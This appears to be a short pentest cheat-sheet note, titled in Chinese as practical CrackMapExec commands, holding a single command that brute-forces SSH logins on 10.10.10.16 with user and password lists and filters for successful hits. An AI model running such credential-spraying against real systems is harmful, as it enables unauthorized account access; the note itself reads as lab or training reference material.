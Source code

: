 # Crackmapexec 实战语句


```
sudo crackmapexec ssh 10.10.10.16 -u users.lst -p password.lst --continue-on-success | grep '+'
```